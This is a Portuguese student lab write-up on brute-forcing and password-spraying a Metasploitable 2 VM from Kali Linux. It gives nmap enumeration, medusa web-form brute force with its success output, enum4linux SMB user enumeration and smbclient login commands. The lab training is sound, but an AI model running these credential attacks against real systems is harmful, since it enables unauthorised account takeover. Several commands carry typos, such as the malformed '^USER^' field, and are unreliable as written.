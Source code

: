 # LAboratorio Dio - Apreentação de Brute Force e password Sparying usando Kali linux.

O alvo é uma maquina com o linux Metesploitable

# Preparando o ambiente com Kali Linux e Matesploitable 2

	 Usando o Kali linux no virtualbox
Preparando o ambiente com Kali Linux e Matesploitable 2



Vamos montar duas maquinas,elas devem se comunicar para podermos fazer elas se conectarem
‼️ Em Rede > Ligado a > Selecione: Placa de rede exclusiva de hospedeiro (host-only)
‼️ Dica: Use um snapshot, assim salva um backup da aquina virtual para quando ela colapse.

Maquina 1: Kali linux, maquina atacante

Maaquina 2: Metesploitable, a maquina alvo
	Login: msfadmin   senha: msfadmin

‼️ Snapshot: Maquina > Snapshot

MAC Address: 08:00:27:46:B9:53 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.101

# Alcançando a maquina vulneravel no Matesploitable 2


## Objetivo, testar as vulnerabilidades da Maquina 2, que esta simulando um servidor desatualizado.
	Foco: Serviço STP

### Passo 1: Ip do alvo
	Ping para a maquina e verifique se esta na mesma rede dela.
	comando: ping -c 3 192.0.0.0

### Passo 2: Enumeração
	Devemos descobrir quais portas e serviços estão em operação, abertos e vulneraveis.
	para isso usamos o Nmap, vamos escanear diretamente as portas que temos interesse.
	comando:
	nmap -sV-p 21,22,80,445,139 192.0.0.0
O que cada parte significa

nmap — a ferramenta de varredura de rede.

* -sV — detecção de versão: tenta identificar o serviço e versão rodando em portas abertas (ex.: “OpenSSH 8.2p1”, “Apache 2.4.41”). *

-p 21,22,80,445,139 — especifica as portas a serem escaneadas (apenas essas cinco):
21 = FTP   22 = SS  H80 = HTTP  139 e 445 = NetBIOS/SMB (Windows file sharing)
	O parametro -sV tenta verificar as versões dos serviços operantes.

### Retorno do Nmap

Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-01 18:51 EDT
Nmap scan report for 192.168.X.101
Host is up (0.00032s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 08:00:27:C5:76:A8 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel



## Criando nome de usuário e senhas comuns em diferentes arquivos

Criamos uma wordList, com usuarios e senhas


### O Curso da dio Sugere isso aqui >>>>
comando, criara um arquivo com possiveis nomes na mão e na marra, pq a professora ja sabe a resposta kkkkk:
echo -e 'user\nmsfadmin\nadmin\nroot' > users.txt

senhas, criaremos um arquivo com as possiveis senhas:
echo -e '123456\npassword\nqwerty\nmsfadmin' > pass.txt

### Eu vou usar as wordList do Kali

Nativamente no Klai podemos achar WordList padrões e genericas para diferentes finalidades dentro de:

***/usr/share/wordlists/***

Para Usuarios, usaremos a lista:
http_default_users.txt

Para senha, usaremos  lista: default_userpass_for_services_unhash.txt



## Ataques de força bruta aplicados em formulários de login em sistemas web


Para atacar logins web é bom aprender por de traz qual o formulario usado, precisamos entender para explorar fraquezas montadas. 

Ao explorar no navegador como atravez da inspeção da Network podemos descobrir os detalhes

## Utilizando o Meduza para simular combinações entre usuários e senhas

Vamos usar a medusa para atacar um servidor web, mais especificamente atazvez de um formulario de login mal contruido vamos explorar para entrar. O formulario revela qual os parametros que o servidor espera receber, assim como o retorno que o servidor entrega.

comando:
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
	-m PAGE: '/alvo/formulario.php' \
	-m FORM:'username=ÛSER^&password=^PASS^&Login=Login' \
	-m 'FAIL=Login faildes' -t 6

[SUCESSO] esse comando ai rodar nossas word list, nos entregando logins validos para o site.



 Resposta:
 2025-10-02 20:44:50 ACCOUNT CHECK: [http] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 1 complete) Password: msfadmin (1 of 4 complete)
2025-10-02 20:44:50 ACCOUNT FOUND: [http] Host: 192.168.56.101 User: user Password: msfadmin [SUCCESS]

~Dica ! Use o comando para descobrir quais os parametros que o formulario pode requisitar~
 ~medusa -M http -q~

## Ataque em cadeia, enumeração smb + password spraying


O foco é descobrir um login valido num alvo, e depois fica facil entrar com a senha rs

Seviço SMB, server mensage block, protocolo da microsoft para compartilhar arquivos, pastas e impressoras alem de validar usuarios, eles usam SAMBA para comunicação entre maquinas.  Ele comartilha arquivos dentro de uma rede interna.

(( Vamos usar a implementação Opensource))

 

## Simulando um cenário comum em ambiente corporativo mal configurado


Simularemos: Conseguimos acesso fisico a uma rede, e descobrimos um SMB ativo e vamos tentar entrar nele.
tentar ser furtivo.

Usaremos password spraying, onde invertemos a ordem, vamos testar varios usuarios para a mesma senha.

Sistemas de segurança podem detectar caso muitos usuarios inesistentem sejam requisitados e nos bloquear. para começar vamso descobrir usuarios validos, e deposi testar senhas comuns


Etapa 1 -Enumeração de usuarios com enum4linux vamos descobrir quais os usuarios reais do sistema, ele vai interagir com o usuario SMB, ele estando mal configurado o enum4linux  extrai listas e protocolos e regras internar usados pelo SMB mal configurado.

Comando, enum4linux  parametro -a ativa as tecnicas de enumeração. tee salva os dados achados:
enum4linux -a 192.0.0.0 | tee enum4_output.txt


# Criando uma lista de usuários - com os dados do enum4linux 
 


# Testando o acesso utilizando smbclient


Entrando usando os dados que coletamos
comando:
smbclient -L //192.0.0.0 -U user



